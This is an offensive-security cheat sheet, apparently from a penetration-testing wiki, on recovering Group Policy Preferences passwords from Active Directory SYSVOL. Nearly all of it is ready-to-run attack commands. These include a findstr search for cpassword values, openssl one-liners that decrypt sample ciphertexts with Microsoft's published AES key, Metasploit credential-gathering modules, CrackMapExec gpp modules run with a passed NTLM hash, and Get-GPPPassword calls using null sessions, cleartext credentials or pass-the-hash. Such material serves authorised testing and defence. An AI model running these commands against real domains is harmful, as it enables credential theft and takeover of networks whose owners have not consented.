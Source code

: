 # SYSVOL & Group Policy Preferences

## **searching SYSVOL**

Find password in SYSVOL \(MS14-025\). SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. All domain Group Policies are stored here: `\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.

```text
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

## Decrypting GPP

Decrypt a Group Policy Password found in SYSVOL \(by [0x00C651E0](https://twitter.com/0x00C651E0/status/956362334682849280)\), using the 32-byte AES key provided by Microsoft in the [MSDN - 2.2.1.1.4 Password Encryption](https://msdn.microsoft.com/en-us/library/cc422924.aspx)

```text
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

e.g: 
echo '5OPdEKwZSf7dYAvLOe6RzRDtcvT/wCP8g5RqmAgjSso=' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

echo 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

## **Automate the SYSVOL and passwords research**

\*\*\*\*

#### **Metasploit** modules to enumerate shares and credentials

```text
scanner/smb/smb_enumshares
post/windows/gather/enum_shares
post/windows/gather/credentials/gpp
```

#### CrackMapExec modules

```text
cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_autologin
cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_password
```

[Get-GPPPassword](https://github.com/ShutdownRepo/Get-GPPPassword)

```text
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

\*\*\*\*

\*\*\*\*

\*\*\*\*

\*\*\*\*

